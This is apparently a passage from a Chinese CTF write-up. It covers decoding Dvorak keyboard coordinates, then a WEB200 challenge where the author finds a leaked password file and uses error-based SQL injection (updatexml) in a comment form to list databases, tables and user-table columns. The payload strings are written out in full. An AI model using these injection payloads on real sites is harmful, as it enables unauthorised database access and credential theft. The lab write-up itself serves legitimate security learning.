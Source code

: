 网上找个dvorak键盘图片

![enter image description here](http://drops.javaweb.org/uploads/images/1daa2f75994761ce39fd1796c84e2a29178adb1f.jpg)

[行,列] 一个一个字符解就是了,比如

```
[4,4] = j
[2,11] = l

```

之后出现的 [4,1,x,x] 是 Shift + [x,x]

### ￼￼WEB200

在登陆页查看网页源码发现

```
<!--I'm lazy, so I save password into a file named password.key -->

```

下载password.key文件,打开里面为一段加密后的javascript代码,直接在控制台执行得到 :

```
Password: xssbbs

```

任意用户名+xssbbs做密码即可登陆,但唯独不能用admin登陆。

登陆后发现能发表评论,根据题目中xss提示发现存在xss漏洞。但是只能x自己的xss不是好 xss。用单引号测试提交字段,发现存在SQL注入漏洞。

因为发表评论,此处应为insert类型的注入,利⽤MySQL的报错性质。

得到数据库:

```
title=s' or updatexml(0,concat(0x7e,(SELECT group_concat(schema_name) FROM information_schema.schemata )),0) or '&content=s

```

发现有information_schema,kaer两个数据库

得到kaer的表名

```
title=s' or updatexml(0,concat(0x7e,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database())),0) or '&content=s

```

有comment,user两个表

查找user表的列名

```
title=s' or updatexml(0,concat(0x7e,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema=database() and table_name='user')), 0) or '&content=s

```
